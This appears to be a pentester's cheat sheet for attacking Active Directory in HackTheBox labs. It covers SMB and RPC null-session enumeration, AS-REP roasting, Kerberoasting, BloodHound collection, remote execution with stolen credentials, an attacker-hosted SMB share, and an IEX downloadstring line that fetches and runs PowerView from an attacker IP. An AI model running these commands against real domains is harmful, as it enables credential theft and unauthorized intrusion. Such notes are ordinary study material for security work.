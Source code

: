 ### ACTIVE DIRECTORY

if you have kerberos, dns and ldap, its probably a windows domain controller

#### using SMBMAP

```
smbmap -H 10.10.10.161
smbmap -R <sharename> -H <Host IP>
smbmap -R <sharename> -H <Host IP> -A Groups.xml -q
smbmap -d dom -u usm -p pass -H host
```

#### Once we have a valid credential

`GetADUsers.py -all -dc-ip 10.10.10.100 active.htb/svc_tgs:<PASS>`

`pxexec.py dom/usn:pwd@host`

when yu have a valid credential, you can run

`runas /netonly /user:active.htb\svc_tgs cmd`

on a windows cmdlien, and you'll have access to the remote one

once you run this, you can run bloodhound from your windows boxn from where you have authenticated as the domain user

`.\sharphound.exe -a all -d active.htb --domain-controller 10.10.10.100`

if you're doing sharphound from your windows machine, its worth changing the DNS to the DNS of the domain controller

`GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs:<PASS>`
this is called Kerberoasting ^^

General TIP: when you ping, if the TTL is above 128, usually some network infrastructure, if its b/w 64 and 128, its a windows box, if its 64 or below, its a Linux box

crackmapexec getting password policy

`crackmapexec smb 10.10.10.161 --pass-pol`

#### Nulll auth

just pass -u '' -p '' everywhere

`GetNPUsers.py -dc-ip 10.10.10.161 htb.local/`

`rpcclient -U '' 10.10.10.161`

once in rpc, enumdomusers, queryusergroups <user-rid(0x47b)>, querygroup <group-rid>, queryuser <uesr-rid>

#### SMB server on linux using impacket

`impacket-smbserver sharename $(pwd) -smb2support -user user -password pass`

now on the windows powershell,

```
$pass = convertto-securestring 'guest' -asplaintext -force
$cred = new-object system.management.automation.pscredential('guest', $pass)
new-psdrive -name kalidrive -psprovider filesystem -credential $cred -root \\10.10.14.22\kalishare
```

#### Powerview

IEX(new-object net.webclient).downloadstring('http://$IP/PowerView.ps1') => this directly import powerview into source

#### LDAPSEARCH

ldapsearch

#### Group Managed Service Accounts - gMSA

can be used on multiple hosts, scheduled tasks

`gMSAs enable automatic password management across multiple computers using Kerberos KDC`


